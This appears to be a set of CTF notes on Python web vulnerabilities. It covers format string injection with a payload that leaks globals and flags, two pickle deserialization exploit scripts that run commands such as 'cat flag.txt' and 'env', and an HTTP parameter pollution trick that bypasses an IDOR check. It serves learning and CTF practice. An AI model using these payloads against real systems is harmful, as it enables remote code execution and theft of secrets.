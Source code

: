# Python

Always look out for `str.replace()` because yes...

## Format string injection

Format string injection usually occurs when using `.format()`.

Example:
```py
a = input()
vuln = f'{{{a}}}'.format(random_string='asdf')
```

> `f'{{{a}}}'` resolves to `'{asdf}'`, input being `'asdf'`, which is passed to `'{asdf}'.format()`

> Instead of a single key, a dictionary can also be passed into `.format(**dict)`

The exploit is similar to SSTI RCE, but in this case, we don't have RCE as we cannot execute anything. Rather, we only can leak sensitive secrets (like flags)

1. Get access to a `__globals__` through the dict passed in 
	* `<key>.__init__.__globals__`
2. Access any global variable through `__globals__[name]`

> Note: if the application passes in additional attributes (like `f'{{{a}.code}}.format(**dict)`) that does not exist 
> in a string, you can escape {} and access another "proper" item that has the desired attribute

Payload:

`{item.__init__.__globals__[flag]} {item`

## Pickle unserialize

The pickle module is vulnerable to unsafe deserialization of Python objects.

Exploit:

```py
import base64, os, pickle, subprocess

class RCE:
    def __reduce__(self):
        cmd = 'cat flag.txt'
        a = subprocess.check_output, (cmd,)
        return a

pickled = pickle.dumps(RCE())
print(base64.urlsafe_b64encode(pickled))
```

Note that the exploit below may not work on all systems/challenges.

```py
DEFAULT_COMMAND = ['env']

import pickle
import base64
import requests

#COMMAND = sys.argv[1] if len(sys.argv) > 1 else DEFAULT_COMMAND

class PickleRce(object):
    ''' __reduce__ can return either a string or a tuple. If it returns a string, then it should be the name of a global variable. If it returns a tuple, it should be in the following syntax: callable, (args), *object's state (will be passed to __setstate__(), *iterator of items (for list subclasses), *iterator of key-value pairs (for dict subclasses or if the class implements __setitem__()), *(obj, state) to set state of class (overriding __setstate__() if implemented)

    The one we are interested in for RCE is callable, (args)

    This has been implemented below.
    '''

    def __reduce__(self):
        import subprocess
        #import os
        return subprocess.check_output, (DEFAULT_COMMAND,)

def gen_payload():
    payload = bytes.decode(base64.b64encode(pickle.dumps(PickleRce())), 'utf-8')
    return payload

print(gen_payload())
```

Instead of `subprocess.check_output`, we can also use `os.popen().read()`, but note that on Windows, there is an issue serializing the os module which becomes "nt" module for some reason.

## HTTP Parameter Pollution with IDOR Vulnerability

> Example: A flask app which makes an internal API call to a FastAPI app.

```python
uid = request.args.get("uid")  
if(uid == str(current_user.user["id"])):   # MOST IMPORTANT CHECK! 
   # pass the url behind to fastapi
   fullurl = request.url 
   path = fullurl.replace(request.url_root, "").replace("fastapi", "")
   forwardurl = "http://localhost:8000" + path
   app.logger.debug("Forwarded URL to Fastapi: %s", forwardurl)
   r = requests.get(forwardurl)
   if(r.ok):
       try:
           j = r.json()
           msg = j['message']
           return Response(msg, status=200)
```

```python
@app.get("/retrievekey")
async def hpp(uid: str):
    r = db.getkey(uid)
    if(r and r['key']):
        location = "/securenote/" + r['key']
        result = 'You will redirect to your secure URL <a href="' + location + '">here</a>'
        # redirects
    return {"message": html}
```

You may think that Insecure Direct Object Reference (IDOR) is not possible, but it is!

Flask kind of "prefers" the first param while FastAPI "prefers" the last one (if you supply two `?uid=` params).

Hence by doing `retrievekey?uid=[i am authorised] &uid=[admin]`, we can access things which we aren't meant to access.

Resource: https://0xgaurang.medium.com/case-study-bypassing-idor-via-parameter-pollution-78f7b3f9f59d